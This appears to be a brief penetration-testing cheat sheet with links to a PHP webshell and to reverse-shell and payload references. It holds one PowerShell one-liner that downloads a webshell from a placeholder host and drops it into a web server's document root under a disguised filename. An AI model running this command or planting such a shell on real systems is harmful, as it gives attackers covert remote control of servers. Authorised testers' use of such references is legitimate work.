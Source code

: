 # Pentest Pastes
One stop shop for all quick lookups for exploitations (one liners, diff techs, rev shells, etc)

# Webshells
(WhiteWinterWolf php webshell)[https://github.com/WhiteWinterWolf/wwwolf-php-webshell]

# Powershell
- fetch file `powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"`

# Resources
- http://threatexpress.com/blogs/2019/penetration-testing-pasties/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources
- https://pentestmonkey.net/cheat-sheet
